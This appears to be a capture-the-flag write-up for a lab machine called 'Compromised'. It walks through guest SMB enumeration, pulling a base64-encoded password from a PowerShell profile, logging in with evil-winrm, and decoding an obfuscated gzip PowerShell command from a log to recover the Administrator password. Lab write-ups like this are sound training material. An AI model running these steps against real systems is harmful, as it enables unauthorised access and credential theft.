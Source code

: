 # Compromised

### Enumeration

```
$ smbmap -u Guest -H 192.168.192.152
        Scripts$                                                READ ONLY
        Users$                                                  READ ONLY
        
$ smbclient \\\\192.168.192.152\\Scripts$ -U Guest
$ smbclient \\\\192.168.192.152\\Users$ -U Guest
```

Users: administrator, scripting

```
smb: \scripting\Documents\WindowsPowerShell\> get profile.ps1
```

This file contains base64 encoded password.

```
$password = ConvertTo-SecureString "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('[REDACTEDBASE64ENCODED]')))" -AsPlainText -Force
```

### Initial Access

```
$ evil-winrm -u scripting -p [REDACTED] -i 192.168.192.152
```

### PrivEsc

There is log file. We can see the base64 encoded string.

`HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc JABPAHcAbgBlAGQAIAA9ACAAQAAoACkAOwAkAE8AdwBuAGUAZAAgACsAPQAgAHsAJABEAGUAYwBvAGQAZQBkACAAPQAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2A...`

We should decode this long part.&#x20;

They obfuscated it. We have to solve it.

We eliminated unnecessary parts of it. We broke down the script to:

```
$Decoded = [System.Convert]::FromBase64String("[REDACTEDBASE64ENCODED]")
$ms = (New-Object System.IO.MemoryStream($Decoded,0,$Decoded.Length))
(New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))).readtoend()
```

Execute these commands respectively. It will give the password.

```
$ evil-winrm -u Administrator -p [REDACTED] -i 192.168.192.152
```
